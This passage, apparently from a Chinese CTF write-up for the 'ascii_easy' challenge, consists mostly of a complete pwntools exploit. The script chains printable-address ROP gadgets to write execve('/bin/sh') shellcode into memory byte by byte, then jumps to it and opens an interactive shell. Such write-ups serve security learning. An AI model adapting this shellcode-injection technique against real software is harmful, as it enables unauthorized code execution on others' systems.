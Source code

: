 ```
# 0x555f3124 : add byte ptr [edi], cl ; mov ebp, 0x5ff801c0 ; ret
# 0x555e3773 : mov word ptr [edx], ax ; mov eax, edx ; ret
```

如上的edx控制为想写入的地址，al进行一番加减构造为对应shellcode字符即可。执行shellcode前还需将edx至为0（execve的第3个参数），否则会报`0xfffffff2 bad address`的[错误](http://c0de3.me/blog/2015-11-17/src.html)。最终利用脚本如下：

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

gdb_init = '''
b *0x08048532
c
'''

# 0x7f > c - 0x5f - 0x5f > 0x20
# 0x7f + 0xbe > c > 0x5f + 0x7f

def write_one(addr, c):
    w = ''
    w += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret
    w += p32(addr)       # edx
    w += p32(0x20202020) # edi
    w += p32(0x55615d44) # pop eax ; cmp eax, 0xfffff001 ; jae 0xb7d55 ; ret
    if 0x20 <= ord(c) <=0x7f:
        w += c + '\x20\x20\x20' # eax
    elif ord(c) < 0x20:
        t = chr(ord(c)+0x100-0x5f-0x5f)
        w += t + '\x20\x20\x20' # eax
        w += p32(0x555e7a4c) # add al, 0x5f ; ret
        w += p32(0x555e7a4c) # add al, 0x5f ; ret
    elif ord(c) > 0x7f:
        if ord(c)-0x5f <= 0x7f:
            t = chr(ord(c)-0x5f)
            w += t + '\x20\x20\x20' # eax
            w += p32(0x555e7a4c) # add al, 0x5f ; ret
        else:
            t = chr(ord(c)-0x5f-0x5f)
            w += t + '\x20\x20\x20' # eax
            w += p32(0x555e7a4c) # add al, 0x5f ; ret
            w += p32(0x555e7a4c) # add al, 0x5f ; ret
    w += p32(0x555e3773) # mov word ptr [edx], ax ; mov eax, edx ; ret
    return w


shellcode = ''
shellcode += '\x31\xd2' # xor edx, edx
shellcode += '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69'
shellcode += '\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'


payload = ''
payload += 'A'*0x20
start_addr = 0x55606055
for i in range(len(shellcode)):
    payload += write_one(start_addr+i, shellcode[i])
payload += p32(start_addr)

p = process(['./ascii_easy', payload])
#p = gdb.debug(['./ascii_easy', payload], gdb_init)
p.interactive()
```